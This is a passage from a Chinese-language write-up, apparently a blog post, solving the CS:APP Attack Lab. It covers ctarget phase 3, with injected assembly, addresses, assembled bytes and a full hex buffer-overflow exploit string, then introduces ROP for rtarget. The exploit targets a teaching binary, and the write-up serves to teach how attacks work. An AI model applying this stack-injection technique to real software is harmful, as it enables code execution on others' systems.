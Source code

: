 > "59b997fa\0" -> 35 39 62 39 39 37 66 61 00

思路跟 phase2 差不多，先写出我们要注入的汇编代码

~~~assembly
movq $(cookie字符串首地址), %rdi # 将cookie字符串作为参数传入
push $(touch3函数的地址) # 把touch3函数地址压进栈
ret # 返回
~~~

那么当务之急就是确定cookie字符串的首地址，拿到touch3函数的地址

![image-20230429171117778](https://persecution-1301196908.cos.ap-chongqing.myqcloud.com/image_bedimage-20230429171117778.png)

得到 `touch3` 函数的首地址 `0x4018fa`

接下来就是确定 cookie 字符串的地址: 直接塞在注入的字符串里应该是塞得下的，我们把字符串放在注入字符串的最后面。字符串一共占9个字节，起始地址为 0x5561dca0 + 8 (返回地址长度) = 0x5561dca8

于是得到完整汇编代码

~~~assembly
movq $0x5561dca8, %rdi
push $0x4018fa
ret
~~~

拿去汇编一下，得到二进制代码

![image-20230429181105196](https://persecution-1301196908.cos.ap-chongqing.myqcloud.com/image_bedimage-20230429181105196.png)

那么已经可以得出注入字符串了吧

> 48 c7 c7 a8 dc 61 55 68
>
> fa 18 40 00 c3 19 81 00
>
> 00 11 45 14 19 19 81 00
>
> 00 11 45 14 19 19 81 00
>
> 00 11 45 14 19 19 81 00
>
> 78 dc 61 55 00 00 00 00
>
> 35 39 62 39 39 37 66 61
>
> 00

![image-20230429200608211](https://persecution-1301196908.cos.ap-chongqing.myqcloud.com/image_bedimage-20230429200608211.png)

## phase 4~5

Part II - Return-Oriented Programming 即 ROP 攻击（返回挟持攻击）。

我们之所以能在前面三个 phase 中为所欲为还是因为 ctarget 中没有栈随机化和限制代码执行区域等保护措施，但接下来的 rtarget 中则包含着各种安全机制。于是我们另辟蹊径，采用 ROP 攻击。
